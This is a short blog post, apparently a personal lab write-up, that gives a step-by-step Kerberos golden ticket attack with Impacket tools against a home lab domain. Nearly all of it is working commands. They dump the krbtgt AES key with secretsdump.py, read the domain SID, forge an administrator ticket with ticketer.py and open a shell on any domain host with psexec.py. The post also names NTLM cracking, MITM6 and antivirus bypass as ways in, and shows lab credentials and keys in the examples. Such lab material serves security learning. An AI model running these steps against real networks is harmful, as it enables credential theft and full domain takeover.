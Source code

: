 ```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

Notes - credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<h6>Use secretsdump.py to obtain the aes256 key for the krbtgt account</h6>

  	secretsdump.py <domain>/<user>:<password> <dc-ip>

  	secretsdump.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250

<h6>Use lookupsid.py to find the domain SID</h6>

  	Lookupsid.py <domain>/<user>:<password> <dc-ip>
   
  	Lookupsid.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250

<h6>Use ticketer.py to create TGT</h6>

	ticketer.py -aes <aes-256> -domain-sid <SID> -domain <domain> -user-id <500> username
 
	ticketer.py -aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 -domain-sid S-1-5-21-536825828-3248286720-2276939788 -domain home.local -user-id 500 administrator

<h6>Export KRB5CCNAME to created ticket location</h6>

	export KRB5CCNAME=/home/kali/Documents/administrator.ccache

<h6>Use psexec to obtain a shell on any machine in the domain</h6>

	psexec.py <domain>/<user>@<hostname>.<fqdn> -no-pass -k
  	psexec.py home.local/administrator@TargetPC.home.local -no-pass -k
